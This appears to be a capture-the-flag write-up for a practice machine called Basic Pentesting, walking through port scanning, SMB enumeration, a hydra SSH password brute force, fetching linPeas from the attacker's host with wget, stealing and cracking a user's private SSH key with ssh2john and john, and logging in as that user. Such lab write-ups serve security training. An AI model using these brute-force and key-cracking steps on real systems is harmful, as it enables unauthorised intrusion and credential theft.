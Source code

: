 
![Screenshot 2023-08-16 013118.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/moMbBki.png)

# Basic_Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

In these set of tasks you'll learn the following:

- brute forcing
- hash cracking
- service enumeration
- Linux Enumeration

## Nmap Scanning

```bash
nmap -A -Pn -F -T4 10.10.231.147 -oN nmap_result.txt
```

```bash
# Nmap 7.92 scan initiated Tue Aug 15 15:13:57 2023 as: nmap -A -Pn -F -T4 -oN nmap_result.txt 10.10.231.147
Nmap scan report for 10.10.231.147
Host is up (0.46s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  tcpwrapped
| ssh-hostkey: 
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=7%CU=31614%PV=Y%DS=5%DC=T%G=Y%TM=64DBCEB
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=104%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=FE%GCD=1%ISR=104%TI=Z%CI=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=
OS:M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=68DF%W2=68
OS:DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: Host: BASIC2

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-08-15T15:14:48-04:00
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2023-08-15T19:14:48
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   541.31 ms 10.17.0.1
2   ... 4
5   598.08 ms 10.10.231.147

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 15 15:15:04 2023 -- 1 IP address (1 host up) scanned in 67.67 seconds
```

## Web Application Directory Scan

```bash
gobuster dir -u http://10.10.231.147/ -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![Screenshot 2023-08-16 013118.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/Screenshot_2023-08-16_013118.png)

## Enumerating the target machine

```bash
enum4linux -a [remote_host]
```

![Screenshot 2023-08-16 024019.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/Screenshot_2023-08-16_024019.png)

```bash
smbclient [//10.10.209.167/Anonymous](notion://10.10.209.167/Anonymous)
```

![Screenshot 2023-08-16 024219.png](Basic_Pentesting%20de31c5215349432982a1e8b7f03de88d/Screenshot_2023-08-16_024219.png)

### staff.txt contain two username jan and kay

```bash
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

## Bruteforce ssh with hydra

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.209.167 -t 10
```

Password found “armando”

```bash
ssh jan@<remote_host>
```

First we will try to enumerate the target machine with linPeas

```bash
wget -r -np -nH --cut-dirs=0 -P /tmp/my_downloads http://10.17.11.201/linPeas
```

we cannot read pass.bak at the moment
but we can crack ssh key
copy id_rsa key from .ssh folder and save it on your machine as id_rsa

```
locate ssh2john.py
/usr/share/ssh2john.py id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## cracked hash.txt : beeswax

```
kay : b??????x
now we can ssh into machine using kay's id_rsa
but we need to change its permissions first
```

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa kay@10.10.209.167
```

## now we can read pass.bak

```bash
cat pass.bak
```